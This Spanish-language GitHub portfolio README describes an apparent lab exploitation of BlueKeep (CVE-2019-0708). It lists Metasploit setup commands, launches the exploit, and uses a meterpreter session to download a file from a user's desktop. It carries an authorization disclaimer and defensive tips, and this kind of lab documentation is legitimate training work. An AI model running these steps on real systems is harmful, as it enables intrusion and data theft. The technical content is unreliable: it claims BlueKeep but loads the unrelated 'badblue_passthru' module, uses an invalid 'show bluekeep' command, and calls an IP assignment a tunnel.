






# CVE-2019-0708 - BlueKeep en entorno de laboratorio

> Laboratorio realizado en un entorno local/controlado con fines educativos. No aplicar estas tecnicas sobre sistemas de terceros sin autorizacion expresa.

## Objetivo

Analizar la vulnerabilidad BlueKeep en RDP y documentar su validacion en un laboratorio controlado.

## Informacion general

- Categoria: Explotacion controlada
- Entorno: Kali Linux y maquinas vulnerables de laboratorio
- Formato: documentacion tecnica para portfolio GitHub

## Desarrollo de la practica

Alcance: Explotación de vulnerabilidad RDP (CVE-2019-0708, BlueKeep)

Vulnerability Details : CVE-2019-0708

Existe una vulnerabilidad de ejecución remota de código en los Servicios de Escritorio remoto, anteriormente conocidos como Servicios de terminal, cuando un atacante no autenticado se conecta al sistema de destino mediante RDP y envía solicitudes especialmente diseñadas, también conocida como «Vulnerabilidad de ejecución remota de código en los Servicios de Escritorio remoto».

WindowsMetasploitable

Primero configuramos las maquinas para que tengan conexión entre ellas.

```bash

sudo ip addr add 10.0.2.10/24 dev eth0

```

Habremos creado un túnel para que tengan conexión las dos máquinas y todo el trafico lo redirija a la IP indicada.

```bash

nmap -sV 10.0.2.101

```


### Iniciamos metasploit con

```bash

msfconsole

```


### Ahora hacemos las configuraciones necesarias para preparar el exploit

```bash

show bluekeep

use exploit/windows/http/badblue_passthru

show targets

set TARGET 2

set RHOSTS 10.0.2.101

set LHOST 10.0.2.10

show options

```


### Con todo configurado lanzamos el exploit

```bash

exploit

```


### Ya tenemos una sesión de meterpreter abierta y funcionando

Una vez dentro utilizamos los siguientes comandos para navegar hasta el escritorio y descargarnos el documento deseado:

getuid

cd C:\\Users\\bob\\Desktop

```bash

ls

```

download archivo_importante.txt


### Ahora ya podemos salir de la sesión de meterpreter con el comando

exit

## Evidencias visuales

### Captura 01


### Captura 02



### Captura 03


### Captura 04


### Captura 05



### Captura 06



### Captura 07



### Captura 08



### Captura 09



### Captura 10


### Captura 11


### Captura 12


### Captura 13


### Captura 14


### Captura 15


## Medidas defensivas y aprendizaje

- Mantener servicios actualizados y eliminar software obsoleto.
- Exponer solo los puertos necesarios y aplicar reglas de firewall.
- Usar segmentacion de red para aislar maquinas vulnerables o servicios criticos.
- Revisar logs de autenticacion, red y aplicacion tras cualquier prueba.
- Sustituir servicios inseguros por alternativas cifradas y soportadas.
- Aplicar el principio de minimo privilegio en usuarios, servicios y demonios.
- Documentar cada hallazgo con evidencia, impacto y recomendacion.

## Notas

- Se ha eliminado informacion personal y marcas de confidencialidad del documento original.
- Las rutas, IPs y credenciales que aparecen pertenecen a entornos de laboratorio o maquinas vulnerables preparadas para practica.
- Este README es la version limpia para GitHub; conserva los documentos originales solo en privado.
